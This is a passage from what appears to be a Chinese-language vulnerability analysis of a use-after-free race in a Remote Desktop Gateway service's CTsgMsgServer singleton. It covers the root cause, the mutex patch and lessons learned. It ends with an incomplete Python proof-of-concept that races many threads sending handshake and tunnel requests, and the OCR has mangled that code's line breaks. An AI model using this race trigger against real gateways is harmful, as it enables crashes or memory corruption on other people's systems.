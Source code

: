 1. socket1结束时, 解引用CTsgMsgServer::m_pMsgSvrInstance  
, heap2->ref变成1  
  
1. socket2结束时, 解引用CTsgMsgServer::m_pMsgSvrInstance  
, heap2->ref变成0, heap2被释放. CTsgMsgServer::m_pMsgSvrInstance  
变成悬挂指针.  
  
1. 当socket3连接时, 引用了悬挂指针, 导致UAF  
  
这个全局变量只会初始化一次, 所以只有在服务第一次启动的时候是NULL的, 但是我们可以通过其它漏洞崩溃服务进程, 让它重启, 于是它又是NULL了.  
## 补丁  
  
官方添加了互斥锁, 避免了多线程同时进入初始化流程.  
## 总结  
  
其实这个uaf最大的问题在于返回值用的全局变量指针, 如果是临时变量指针v1, 至少不会导致引用计数错误. 同时, 也提醒我们要关注全局变量的初始化和引用, 避免竞争情况下的异常.  
## POC核心逻辑  
```
def get_data(conId):  data = 'GET /remoteDesktopGateway?......'return datadef main_logic():  sock.send(get_data(conId).encode('utf-8'))  sock.recv(1024)  time.sleep(0.2)  data = HandShakeRequest(0)  data = websocket_data(b'xxxx', data)  sock.send(data)  sock.recv(1024)  data = TunnelRequest(2)  data = websocket_data(b'xxxx', data)  wait_all_threads_ready_and_sync()  sock.send(data)  time.sleep(0.1)  sock.close()    def exp():for _ in range(total_thread_nums):    pool.submit(main_logic) // 使用多个线程竞争  time.sleep(0.5)  main_logic()// 模拟socket3行为
```  
## crash栈回溯  
```
```